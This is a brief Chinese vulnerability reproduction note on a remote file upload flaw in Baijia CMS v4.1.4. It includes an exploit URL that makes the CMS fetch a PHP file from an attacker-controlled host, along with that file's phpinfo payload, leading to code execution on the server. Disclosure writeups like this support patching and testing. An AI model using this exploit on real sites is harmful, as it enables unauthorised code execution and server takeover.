



# 百家cms v4.1.4 远程文件上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3326](https://www.zhihuifly.com/t/topic/3326)

# 百家cms v4.1.4 远程文件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php 
```

远程服务器起一个/test/test.php，内容为**<?php echo "<?php phpinfo();";**



访问payload，得到路径


访问路径，执行代码



查看本地文件



## 参考链接

> https://xz.aliyun.com/t/7542